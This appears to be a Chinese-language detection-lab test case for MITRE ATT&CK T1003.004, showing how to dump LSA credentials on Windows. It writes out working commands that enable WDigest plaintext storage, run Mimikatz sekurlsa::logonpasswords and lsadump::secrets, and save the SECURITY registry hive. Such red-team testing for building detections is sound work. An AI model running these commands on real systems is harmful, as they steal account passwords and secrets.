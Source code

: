 # T1003.004-Win-基于LSA凭证获取

## 描述

凭据转储（Credential Dumping，MITRE ATT&CK T1003.004）涉及攻击者通过访问本地安全机构（Local Security Authority，LSA）提取凭据材料，如本地或域账户密码、服务账户凭据等。LSA机密存储于注册表`HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets`或LSASS（Local Security Authority Subsystem Service，lsass.exe）进程内存中。在Windows 2000至Server 2008环境中，LSASS内存可能以明文存储密码（支持WDigest或SSP认证）。Windows 8.1及Server 2012起，微软增强了安全性，默认不再以明文存储密码，但仍可通过特定配置提取。攻击者需SYSTEM权限，可使用Mimikatz、reg.exe或pwdump7等工具从注册表或内存中提取凭据。此技术常用于横向移动或权限提升。

## 测试案例

### 测试环境
- 系统：Windows Server 2012或Windows 10（WDigest启用）
- 工具：Mimikatz、reg.exe
- 要求：SYSTEM权限、域环境（abcc.org，可选）、启用Sysmon和Windows安全日志审计
- 用户：Administrator（密码：Password123）
- 配置：启用WDigest明文存储（测试需要）

### 测试准备
1. 确认SYSTEM权限：
   ```cmd
   whoami /all
   ```
   - 确保运行于SYSTEM上下文（可通过PsExec：`psexec -s -i cmd`）。
2. 启用WDigest明文存储（Windows 8.1+需手动启用）：
   ```cmd
   reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
   ```
3. 启用日志审计：
   - 组策略：计算机配置 > 策略 > Windows设置 > 安全设置 > 本地策略 > 审核策略 > 进程跟踪、对象访问 > 启用成功和失败审计。
   - 安装Sysmon：<https://docs.microsoft.com/sysinternals/downloads/sysmon>
     - 配置：启用事件ID1（进程创建）、7（映像加载）、13（注册表操作）。
4. 下载Mimikatz：
   - URL：<https://github.com/gentilkiwi/mimikatz>
   - 放置于本地（C:\Tools\mimikatz）。
5. 确保活跃用户会话（生成LSASS凭据）。

### 测试步骤
1. **使用Mimikatz从LSASS内存提取凭据**：
   ```cmd
   cd C:\Tools\mimikatz
   mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
   ```
   - 输出示例：
     ```
     wdigest:
       * Username: Administrator
       * Domain: ABCC
       * Password: Password123
     ```
2. **使用reg.exe导出LSA机密**：
   ```cmd
   reg save HKEY_LOCAL_MACHINE\SECURITY C:\Temp\security.hiv
   ```
   - 验证文件：`dir C:\Temp\security.hiv`
3. **离线分析LSA机密**（可选）：
   - 使用Mimikatz解析：
     ```cmd
     mimikatz.exe "lsadump::secrets /system:C:\Temp\security.hiv" exit
     ```